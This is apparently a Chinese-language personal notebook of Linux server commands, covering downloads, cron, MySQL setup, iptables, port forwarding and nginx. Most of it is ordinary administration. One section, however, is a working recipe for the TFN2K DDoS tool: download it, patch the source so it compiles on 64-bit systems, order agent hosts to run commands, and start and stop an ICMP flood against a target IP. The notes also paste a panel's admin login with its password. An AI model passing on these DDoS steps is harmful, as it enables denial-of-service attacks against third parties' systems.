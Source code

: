 # Linux 常用指令

【文件下载】
wget http://www.domain.com/xxx.zip
-- 下载需要登陆的文件
1、cookies.txt文件的制作：用Chrome的插件Export Cookies导出wget用的cookie。导出来的文件是cookies.txt
https://chrome.google.com/webstore/detail/cookietxt-export/lopabhfecdfhgogdbojmaicoicjekelh
2、wget -c –load-cookies=cookies.txt "下载地址" -O "文件名"
【不挂断运行】
nohup cammond &

【实时查看文件内容】
tail -f catalina.out    或    tailf catalina.out

【查看后台运行进程】
jobs –l
fg %n 让后台运行的进程n到前台来
fg、bg、jobs、&、ctrl + z都是跟系统任务有关的，虽然现在基本上不怎么需要用到这些命令，但学会了也是很实用的
一。& 最经常被用到
   这个用在一个命令的最后，可以把这个命令放到后台执行
二。ctrl + z
     可以将一个正在前台执行的命令放到后台，并且暂停
三。jobs
     查看当前有多少在后台运行的命令
四。fg
     将后台中的命令调至前台继续运行
   如果后台中有多个命令，可以用 fg %jobnumber将选中的命令调出，%jobnumber是通过jobs命令查到的后台正在执行的命令的序号(不是pid)
五。bg
     将一个在后台暂停的命令，变成继续执行
   如果后台中有多个命令，可以用bg %jobnumber将选中的命令调出，%jobnumber是通过jobs命令查到的后台正在执行的命令的序号(不是pid)
【SSH终端连接超时】
1、echo $TMOUT，如果大于0，在/etc/profile中设置为0
2、vi /etc/ssh/sshd_config
        将 ClientAliveInterval 0和ClientAliveCountMax 3的注释符号去掉,将ClientAliveInterval对应的0改成60,ClientAliveInterval指定了服务器端向客户端请求消息 的时间间隔, 默认是0秒, 不发送
service sshd restart
【tar备份指令】
>tar -zcvf /usr/tomcat7/bak/2013-12-18.11.30.tar.gz ./ROOT
tar -zcvf /usr/tomcat7/bak/2013-12-27.10-32.tar.gz /usr/tomcat7/webapps/ROOT
 
【linux下的tomcat乱码解决方法】
vim catalina.sh  
设置：LANG='zh_CN.UTF-8'，原来可能是GBK
原来的可能是GBxxxx ，如果没有则添加这一行，重启tomcat即可生效
【安静模式复制文件】
 \cp -rvf ./test/* ./ROOT/^C    前面的\表示不使用别名，cp默认别名是cp -i(一个一个确认)
【输出时间】
$(date +%Y-%m-%d.%T)

【定时任务、自动备份】
crontab -e 添加定时任务
分 小时 日 月 星期 命令
0-59 0-23 1-31 1-12 0-6 command (取值范围,0表示周日一般一行对应一个任务)
00 08 * * * /root/mysql_backup.sh    表示每天早上08:00 执行/root目录下的mysql_backup.sh

【批量修改文件所有者】
user:nginx 表示将文件所有者修改为user，分组修改为nginx，最后的参数为目录，-R为递归包含子目录
chown -R user:nginx /var/www/user

【安装jdk、java运行环境】
需要先到oracle官方下载对应的jdk版本，下载jdk-xxx-linux-xxx.rpm的安装包，64位系统下载x64，32位系统下载x86
http://www.oracle.com/technetwork/java/javase/downloads/jdk7-downloads-1880260.html
下载之后上传到自己的linux服务器上面，然后执行下面的指令即可
rpm -ivh jdk-7u15-linux-x64.rpm

【安装mysql】
http://www.2cto.com/database/201207/141878.html
linux下使用yum安装mysql
1、安装
查看有没有安装过：
          yum list installed mysql*
          rpm -qa | grep mysql*
查看有没有安装包：
          yum list mysql*
安装mysql客户端：
          yum install mysql
安装mysql 服务器端：
          yum install mysql-server
          yum install mysql-devel
  www.2cto.com  
2、启动&&停止
数据库字符集设置
          mysql配置文件/etc/my.cnf中加入default-character-set=utf8
启动mysql服务：
          service mysqld start或者/etc/init.d/mysqld start
开机启动：
          chkconfig -add mysqld，查看开机启动设置是否成功chkconfig --list | grep mysql*
          mysqld             0:关闭    1:关闭    2:启用    3:启用    4:启用    5:启用    6:关闭
停止：
          service mysqld stop
2、登录
创建root管理员：
          mysqladmin -u root password 123456
  www.2cto.com  
登录：
          mysql -u root -p输入密码即可。
忘记密码：
          service mysqld stop
          mysqld_safe --user=root --skip-grant-tables
          mysql -u root
          use mysql
          update user set password=password("new_pass") where user="root";
          flush privileges;  
3、远程访问
开放防火墙的端口号
mysql增加权限：mysql库中的user表新增一条记录host为“%”，user为“root”。
4、Linux MySQL的几个重要目录
  www.2cto.com  
数据库目录
         /var/lib/mysql/
配置文件
         /usr/share /mysql（mysql.server命令及配置文件）
相关命令
         /usr/bin（mysqladmin mysqldump等命令）
启动脚本
         /etc/rc.d/init.d/（启动脚本文件mysql的目录）
【解决乱码】
http://www.cnblogs.com/R-zqiang/archive/2012/11/23/2785125.html
Linux系统修改编码
Windows的默认编码为GBK，Linux的默认编码为UTF-8。在Windows下编辑的中文，在Linux下显示为乱码。为了解决此问题，修改Linux的默认编码为GBK。方法如下：
方法1：
vi   /etc/sysconfig/i18n
默认为:
LANG="en_US.UTF-8"
SYSFONT="latarcyrheb-sun16"
修改为:
LANG="zh_CN.GBK"
SUPPORTED="zh_CN.UTF-8:zh_CN:zh"
SYSFONT="latarcyrheb-sun16"
方法2：
vi /etc/profile
export LC_ALL="zh_CN.GBK"
export LANG="zh_CN.GBK"
【Linux上传文件】
scp、
http://www.ibm.com/developerworks/cn/linux/l-cn-filetransfer/

【删除指定日期前的文件】
find -mtime +45 | xargs rm -rvf

【查看文件夹大小】
du -sh region
【防火墙配置】
iptables -I INPUT -p tcp -–dport 80 -j ACCEPT允许80端口进入
iptables -I OUTPUT -p tcp -–dport 3306 -j ACCEPT允许3306端口出去
service iptables status查看防火墙状态
service iptables save 保存配置
service iptables restart重启防火墙
【RPM卸载程序】
rpm -qa    查看安装包列表
rpm -e jre-<version>-fcs    卸载程序

【linux推送文件，文件互传】
scp -P 25560 /alidata1/jdk-7u71-linux-x64.rpm root@n.s5.timetown.net:/tmp    下载
       端口  本地文件目录                       远程账号@地址:目录（目录一般为/tmp）
scp -r s4-25565_20150106.zip root@10.160.46.55:/a  上传

【zadmin】
 ========== Zhujibao install is finished ====
            Manager URL: http://ip:9999
            Username:admin Password: c6265c40
 ========== Power By z.admin5.com ===========
【定时任务】
crontab -e    编辑定时任务
crontab -l    查看定时任务
00 2 * * * root /a/apps/script/statis.sh    定时任务命令行
分 时 天 月 星 用户 脚本
service crond start    启动服务，默认未启动，并且需要加入开机启动项：/etc/rc.d/rc.local
【修改用户】
vi /etc/passwd
【查看运行的Java】
ps -ef | grep java
【批量文件比较】
diff -rq /tmp/classes /usr/local/tomcat/qianweb.chinap2g.com/webapps/ROOT/WEB-INF/classes

【vsftp强制家目录】
chroot_local_user=YES

【TCP端口转发】
10.162.95.193是本地IP，是要转发到的IP，218.244.150.85是本地公网IP
2222是本地端口，25565是远程端口，第一个25565是本地端口，第二个25565是远程端口
清除
iptables -F -t nat
设置转发
iptables -t nat -I PREROUTING -d 218.244.150.85 -p tcp -m tcp --dport 25565 -j DNAT --to-destination 10.160.46.55:25565
设置转发回送
iptables -t nat -A POSTROUTING -d 10.160.46.55 -p tcp -m tcp --dport 25565 -j SNAT --to-source 10.162.95.193
保存配置
service iptables save
重启服务
service iptables restart

【批量查找】
grep -r "关键字" ./

【查看内存条信息】
dmidecode |grep -A16 "Memory Device"

【清除mem缓存】
首先我们需要使用sync指令，将所有未写的系统缓冲区写到磁盘中，包含已修改的 i-node、已延迟的块 I/O 和读写映射文件。否则在释放缓存的过程中，可能会丢失未保存的文件。
#sync
接下来，我们需要将需要的参数写进/proc/sys/vm/drop_caches文件中，比如我们需要释放所有缓存，就输入下面的命令：
#echo 3 > /proc/sys/vm/drop_caches
http://blog.sina.com.cn/s/blog_539d6e0c0100ys3o.html

【封禁/解封IP】
iptables -I INPUT -s 123.44.55.66 -j DROP    封禁
iptables -D INPUT -s 123.44.55.66 -j DROP    解封

【DDOS-tfn2k】
wget http://www.xfocus.net/tools/200405/tfn2k.tgz
tar zxvf tfn2k.tgz
vim aes.h    //将typedef unsigned long u4byte;改成typedef unsigned int  u4byte; 在64位的系统下，GCC会认为unsigned long是8个字节，而tfn2k把它当4个字节使用，从而导致在aes_setkey函数中误用。 最终导致的问题就是，在使用tfn时，一直提示“Sorry, passwords do not match.”
vim ip.h    //修改123行，并注解掉以下 
#ifndef in_addr
/*struct in_addr
  {
    unsigned long int s_addr;
  }*/;
vim mkpass.c    //修改87行，并加入0777 
原始:fd = open ("pass.c", O_WRONLY | O_TRUNC | O_CREAT);
修改后:fd = open ("pass.c", O_WRONLY | O_TRUNC | O_CREAT, 0777);
vim disc.c     //修改30行，并加入0777 
原始:close (open ("agreed", O_WRONLY | O_CREAT | O_TRUNC));
修改后:close (open ("agreed", O_WRONLY | O_CREAT | O_TRUNC, 0777));
#make
按完yes后，会需要输入8-16码的密码，即可完成。
编译通过后，会产生td及tfn，这就是大名鼎鼎的tfn2k啦~,td是守护进程，用来安装在代理中的，而tfn就是控制端. 将td放在代理机器中，tfn放在控制机器中
建立host.txt代理机器IP地址集，./tfn -f host.txt -c 10 -i "mkdir wjpfjy"  与host.txt中的代理通讯，让其执行命令mkdir wjpfjy即建立一个目录
./tfn -f host.txt -c 6 -i 192.168.0.5开始ICMP/PING 攻击
./tfn -f host.txt -c 0 停止攻击
相关链接：http://www.chinaunix.net/old_jh/4/266835.html、http://blog.chinaunix.net/uid-16728139-id-4411623.html、http://www.xfocus.net/tools/200405/697.html、http://phorum.study-area.org/index.php/topic,67375.msg331808.html

【if判断】
以下代码是判断变量是否为空串
if [ -z "$new_version" ]; then
        echo "没有找到更新包，请将更新包(*.zip)放入本级目录" && exit 0
fi
参考文档：http://blog.sina.com.cn/s/blog_63597c690100qt47.html

【安装OpenSSL】
参考文档：http://china.ygw.blog.163.com/blog/static/6871974620121118102817580/、http://zengwu3915.blog.163.com/blog/static/2783489720145171114077/

【nginx页面静态化】
location  ~ \.html? {
    proxy_store        /tmp/www$uri; 
    # 如果页面是GZIP乱码，则需要加上这个头部信息
    if ( -e $request_filename ) {
        add_header      "Content-Encoding"      "gzip";    
    }
    proxy_store_access user:rw group:rw all:r; 
    root               /tmp/www; 
    if ( !-e $request_filename) { 
        proxy_pass         http://127.0.0.1:9080;
    }
}

![](https://i.loli.net/2018/05/11/5af557ca38f37.png)
